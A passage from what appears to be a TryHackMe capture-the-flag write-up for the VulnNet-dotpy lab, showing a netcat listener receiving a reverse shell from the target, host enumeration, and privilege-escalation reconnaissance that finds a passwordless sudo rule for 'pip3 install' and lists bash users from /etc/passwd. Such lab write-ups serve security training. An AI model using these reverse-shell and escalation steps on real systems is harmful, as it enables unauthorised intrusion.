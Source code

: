 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227234748.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.130.194] 42326
web@vulnnet-dotpy:~/shuriken-dotpy$ whoami;hostname;id;ip a
web
vulnnet-dotpy
uid=1001(web) gid=1001(web) groups=1001(web)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:75:2b:22:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.194/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2781sec preferred_lft 2781sec
    inet6 fe80::25:75ff:fe2b:22c9/64 scope link 
       valid_lft forever preferred_lft forever
```

**I'm user `web`!**

## Privilege Escalation

### web to system-adm

Let's do some basic enumerations!

**Sudo permission:**
```
web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

**We can run `/usr/bin/pip3 install *` as user `system-adm` without password.**

```
web@vulnnet-dotpy:~/shuriken-dotpy$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
system-adm:x:1000:1000:system-adm,,,:/home/system-adm:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
manage:x:1002:1002:,,,:/home/manage:/bin/bash
```
